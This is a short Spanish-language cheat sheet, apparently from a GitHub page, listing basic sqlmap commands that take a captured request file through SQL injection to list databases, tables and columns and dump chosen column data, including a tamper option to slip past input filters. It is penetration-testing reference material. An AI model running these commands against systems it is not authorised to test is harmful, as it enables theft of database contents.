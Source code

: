 ### Comandos básicos de la herramienta SQLMAP

#DB
//Devuelve todas las bases de datos
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln --dbs --tamper=space2comment

#Tabla
//Devuelve las tablas de una DB específica
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name --tables

#Columnas
//Devuelve las columnas de una DB y tabla específica
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name --columns

#Datos
//Devuelve los DATOS de una columna específica
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name  --dump -C name,name,name
